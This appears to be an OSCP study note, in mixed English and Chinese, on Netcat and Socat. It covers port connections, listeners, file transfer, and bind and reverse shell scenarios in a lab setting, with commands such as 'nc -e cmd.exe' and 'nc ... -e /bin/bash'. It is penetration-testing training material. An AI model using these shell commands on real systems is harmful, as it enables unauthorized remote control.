 ```yaml
---
title: 'OSCP Note_ PRACTICAL TOOLS'
disqus: hackmd
---
```


OSCP Note_ PRACTICAL TOOLS
===

# PRACTICAL TOOLS
We often find ourselves in situations where the only tools available are those already installed on the target machine.

## Netcat
Netcat is one of the original penetration testing tools. Netcat reads and writes data across network connections using TCP or UDP protocols.

### – Connecting To a TCP/UDP Port
```
nc -n -v {Destination IP} {Destination port}
```
>-n： skip DNS name resolution\
>-v：詳細模式（verbose）輸出，顯示詳細的連接過程和調試訊息。

```
┌──(frankchang㉿CHW-Macbook)-[~]
└─$ nc -n -v 10.11.0.22 110
(UNKNOWN) [10.11.0.22] 110 (pop3) open
+OK POP3 server ready
```
> （110 port 通常用於 POP3 電子郵件協議）\
> 上面回應表示 Netcat 成功連接到目標 IP 地址 10.11.0.22 的 110 端口，並顯示了 POP3 服務器的歡迎訊息

**Try to interact with the server by attempting to authenticate as the Offsec user**

![image](https://hackmd.io/_uploads/rkfkLqLIR.png)

### – Listening On a TCP/UDP Port

```
rdesktop {Windows IP} -u {Windows User} -p {Windows password} -g 1024x768 -x 0x80
```
> -g 1024x768: RDP解析度為 1024x768 像素\
> -x 0x80: 指定RDP的體驗設置，0x80 代表低頻寬連接，會禁用一些高頻寬需求的功能以提高連接效率。

![image](https://hackmd.io/_uploads/r1IZJiU8R.png)

#### (In Windows RDP)
![image](https://hackmd.io/_uploads/r1cmmj8UR.png)
> 在 Windows 遠端桌面開4444 port
```
nc -nvlp {port}
```
>-n： skip DNS name resolution\
>-v：詳細模式（verbose）輸出，顯示詳細的連接過程和調試訊息\
>-l：進入「監聽」模式，等待傳入的連接\
> -p 4444：指定 Netcat 監聽的local port 為 4444

#### 1. Kali terminal send request
![image](https://hackmd.io/_uploads/ByPF4iIUR.png)
#### 2. Windows RDP
![image](https://hackmd.io/_uploads/HJda4iULA.png)

>[!Note]
> It's a important feature in netcat

### – Transferring Files with Netcat
Netcat can also be used to transfer files both text and binary.
#### (In Windows RDP)
```
nc -nvlp {port} > {exe name}.exe    #監聽
```
![image](https://hackmd.io/_uploads/BkFRFjLU0.png)

#### (In Kali terminal)
```
nc -nv {port} < {Transferred File's path}    #傳送檔案
```
![image](https://hackmd.io/_uploads/SkhLqs8U0.png)

#### (Back to Windows)
> Give the file enough time to transfer
```
{exe name}.exe -V
```
![image](https://hackmd.io/_uploads/rkviooUUC.png)
> change to **wget.exe** from Kali

### – Remote Administration with Netcat
```
man nc
```
#### (1) Netcat Bind Shell Scenario
![image](https://hackmd.io/_uploads/SJZeM3UUR.png)
![image](https://hackmd.io/_uploads/H1kbG28IA.png)
> Bob is running Windows\
> And Alice is running is running Linux.

![image](https://hackmd.io/_uploads/B1CQl6LIC.png)
> Bob needs his system and asked Alice to connect to his computer and issue some commands remotely.

##### (Bob: Windows)
IP: 10.11.0.22
```
nc -nvlp 4444 -e cmd.exe
```
> -e cmd.exe: 在連接建立後，執行 cmd.exe，這是 Windows 的命令行解釋

![image](https://hackmd.io/_uploads/HkXT76I8C.png)

##### (Alice: Kali)
```
nc -nv 10.11.0.22 4444
```
![image](https://hackmd.io/_uploads/r1FBE6UIA.png)
> 成功執行 Bob 的 cmd.exe (Kali 遠端執行 Windows 指令)

![image](https://hackmd.io/_uploads/SJ8K4aUU0.png)
> ipconfig 顯示 Bob 的IP

#### (2) Reverse Shell Scenario
Alice needs help from Bob.
![image](https://hackmd.io/_uploads/rk2BqA8LA.png)
> Alice 在內網\
> We can send control of Alice's command prompt to Bob.\
> (Reverse Shell)
##### (Bob: Windows) > Listen
IP: 10.11.0.22
```
nc -nvlp 4444 
```
![image](https://hackmd.io/_uploads/Hy1oj0LUA.png)
> Listen port 4444 for incoming shell

##### (Alice: Kali) > Send
Send reverse shell to Bob
```
nc -nv {Destination IP} {Destination port} -e /bin/bash
```
![image](https://hackmd.io/_uploads/HyUHn0UIR.png)
> -e /bin/bash: 在連接建立後，執行 /bin/bash，這是 Linux 的命令行解釋

##### Back to (Bob: Windows)
![image](https://hackmd.io/_uploads/rkfz6CL8C.png)
> 成功在 Windows 上遠端執行 Kali command

## Socat
Socat is a command-line utility that establishes bidirectional byte streams and transfers data between them.
```
socat - TCP4:10.11.0.22:110
```
